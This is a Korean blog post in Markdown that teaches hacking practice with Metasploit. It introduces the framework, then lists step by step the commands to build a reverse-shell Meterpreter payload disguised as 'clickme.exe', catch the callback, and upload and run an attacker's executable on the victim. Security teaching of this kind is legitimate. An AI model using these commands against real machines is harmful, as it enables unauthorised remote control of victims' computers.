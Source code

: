 ```yaml
---
layout: post
title: Metasploit Meterpreter를 이용한 해킹 실습
categories: Tool
tags: Metasploit
---
```

# 목차
1. Disclaimer
1. Metasploit, msfvenom, meterpreter 란
1. PoC
1. 공격 코드 설명
- - -
  
# 1. Disclaimer
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
# 2. Metasploit, msfvenom, meterpreter 란
## – Metasploit
메타스플로잇 프로젝트란 취약점 분석과 IDS 서명 개발 보조기구 등에 대한 정보를 제공하는 것을 목적으로 하고 있습니다. 2007년 루비에 의하여 재구조된 후, 2009년 10월 21일 Rapid7이라는 통일 취약성 관리 솔루션을 제공하는 보안 회사에 인수되었습니다.

칼리 리눅스에 메타스플로잇이 기본으로 설치되어있고, 실제로 직접 metasploit-framework 의 모듈 폴더를 보면 탑재된 모듈이 루비로 작성되어있다는 것을 확인할 수 있습니다.


메타스플로잇은 위와 같이 msfbinscan, msfconsole, msfd, msfdb, msfelfscan, msfmachscan, msfpescan, msfremove, msfrop, msfrpc, msfrpcd, msfupdate, msfvenom 이란 프로그램들로 구성되어 있습니다.  
여기서 ~scan이란 이름의 프로그램들은 익스플로잇 도구를 제작할 때 쓰이는 도구이고, 대부분 메타스플로잇을 사용한다고 하면 msfconsole이란 콘솔 커맨드라인 인터페이스를 의미합니다. msfconsole은 메타스플로잇의 대부분의 기능을 지원합니다.

## – msfvenom
위의 프로그램 중에 msfvenom이란 이름의 프로그램이 있습니다. 메타스플로잇의 커맨드라인 인스턴스로써 다양한 쉘 코드를 생성할 수 있습니다.  
예로, 공격자의 ip와 포트번호를 삽입하여 희생자 windows pc의 쉘을 따내는 프로그램을 제작하는데 사용됩니다.

## – meterpreter
메타스플로잇 공격은 주로 msfconsole -> search -> use -> info -> show options -> set -> exploit -> meterpreter 순으로 진행이 됩니다.  
여기서 미터프리터는 in-memory DLL인젝션을 사용한 페이로드로써, 최종적으로 희생자 pc의 exploit에 성공해서 미터프리터 세션이 맺어져 쉘 권한을 획득해 직접 희생자 pc에 명령을 내릴 수 있게 네트워크를 유지시켜줍니다.
- - -
# PoC
{% include youtube_embed.html id="G-3jJCqQ_m8" %}
- - -
# 4. 공격 코드 설명
{% highlight text %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=7777 -f exe -o clickme.exe
{% endhighlight %}
msfvenom을 이용해 페이로드(-p)로 윈도우즈 미터프리터 리버스 커넥션을 맺습니다. 여기서 리버스 커넥션이란, 외부에서 내부로 들어오는 inbound 트래픽은 방화벽에서 막지만, 그 반대인 outbound 트래픽의 경우 대부분은 허용해주는 것을 이용해 내부망에서 외부망으로 거꾸로 접속을 하도록하는 쉘코드를 의미합니다.  
LHOST는 공격자 아이피이고 LPORT는 공격자 임의의 포트로 설정합니다.  
포맷(-f)은 exe로 윈도우즈 실행 프로그램이며, clickme.exe 형태로 페이로드를 저장합니다.

{% highlight text %}
msf5 > use exploit/multi/handler
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lhost 192.168.xxx.xxx
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lport 7777
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > exploit
{% endhighlight %}
익스플로잇을 하고 희생자 pc에서 clickme.exe를 클릭하면 리버스 커넥션이 맺어졌다는 메시지와 함께 미터프리터 세션이 열렸다는 메시지를 받게 됩니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자 pc의 시스템 정보를 알아냅니다.

{% highlight text %}
meterpreter > upload Warning.exe
{% endhighlight %}
Warning.exe라는, 공격자가 만들어낸 윈도우즈 실행파일을 희생자 pc에 업로드 시킵니다.

{% highlight text %}
meterpreter > execute -f Warning.exe
{% endhighlight %}
공격자가 임의로 Warning.exe를 실행시킵니다.